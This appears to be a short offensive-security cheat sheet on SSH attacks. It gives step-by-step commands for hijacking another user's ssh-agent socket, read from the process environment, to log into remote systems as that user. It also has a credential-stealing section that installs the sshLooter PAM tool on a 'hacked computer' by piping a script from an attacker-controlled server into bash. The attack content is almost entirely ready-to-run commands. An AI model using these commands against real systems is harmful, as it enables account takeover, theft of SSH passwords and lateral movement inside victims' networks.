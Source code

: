 # Hijacking
### Using MITRE ATT&CK
[MITRE ATT&CK Framework](https://attack.mitre.org/techniques/T1563/001/)

### Manually
##### Step 1 - Determine SSH Process ID (PID)
```bash
ps aux | grep sshd
```
##### Step 2 - Determine SSH_AUTH_SOCK environment variable
```bash
grep SSH_AUTH_SOCK /proc/<PID>/environ
```
##### Step 3 - Hijack target's ssh-agent socket
```bash
SSH_AUTH_SOCK = /tmp/ssh-XXXXXXX/agent.XXXX ssh-add -l
```
##### Step 4 - Log into remote system
```bash
ssh remotesystem -l victim
```

### Hijacking References
[Public Key Authentication](https://www.ssh.com/academy/ssh/public-key-authentication)

[Unix domain socket](https://en.wikipedia.org/wiki/Unix_domain_socket)

[SSH and ssh-agent](https://community.broadcom.com/symantecenterprise/communities/community-home/librarydocuments/viewdocument?DocumentKey=dfe66853-a519-4b96-81b6-e7cbbdfc8c53&CommunityKey=1ecf5f55-9545-44d6-b0f4-4e4a7f5f5e68&tab=librarydocuments)

[SSH Hijacking for lateral movement](https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/)

# Stealing Credentials
### Using PAM module
```bash
git clone https://github.com/mthbernardes/sshLooter.git
cd sshLooter

# On your server execute.
python -m SimpleHTTPServer

# On the hacked computer execute.
curl http://yourserverip:8000/install.sh | bash
```

### Steal Credentials References
[Stealing SSH credentials Another Approach](https://mthbernardes.github.io/persistence/2018/02/10/stealing-ssh-credentials-another-approach.html)

[sshLooter](https://github.com/mthbernardes/sshLooter)